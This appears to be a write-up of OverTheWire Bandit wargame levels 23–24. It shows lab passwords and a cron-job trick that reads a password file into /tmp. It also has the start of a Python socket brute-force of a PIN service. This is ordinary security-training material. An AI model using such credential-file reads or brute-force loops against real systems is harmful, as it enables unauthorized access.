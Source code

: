 ```bash
jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
```

### Level 23 - Bash script 2
```bash
ssh -p 2220 bandit23@bandit.labs.overthewire.org
# jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n http://overthewire.org/wargames/bandit/bandit24.html
```
```bash
$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash
myname=$(whoami)
cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
$ ls /var/spool/bandit24/
lol.sh  script.sh
$ cat /var/spool/bandit24/*
#!/bin/sh
cat /etc/bandit_pass/bandit24 > /tmp/tmp.AuFwziaI3a/lol.txt
$ cat /tmp/tmp.AuFwziaI3a/lol.txt
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

### Level 24 - Bruteforce script (in `python`)
```bash
ssh -p 2220 bandit24@bandit.labs.overthewire.org
# UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ http://overthewire.org/wargames/bandit/bandit25.html
```
Let's test first with `nc`
```bash
$ echo "$(cat /etc/bandit_pass/bandit24) 0000" | nc localhost 30002
Wrong! Please enter the correct pincode. Try again.
```
Now that we have our Bad Boy (Wrong...), it's Bruteforce time! From 0000 to 9999. I choose python and the standard `socket` library:
- `bytes_data = socket.recv(buffer_size)` to receive data
- `socket.sendall(bytes_data)` to send data

Quick test in python 3:
```bash
$ cd $(mktemp -d) && vim main.py
```
```python
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('localhost', 30002)); s.recv(1024) # to remove first banner msg
for i in range(0,3):
    s.sendall(str.encode('UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ '+str(i)+'\n'))
    print(s.recv(1024).decode()) # print response
```
```bash
$ python3 main.py
b'Wrong! Please enter the correct pincode. Try again.\n'
b'Wrong! Please enter the correct pincode. Try again.\n'
b'Wrong! Please enter the correct pincode. Try again.\n'
```
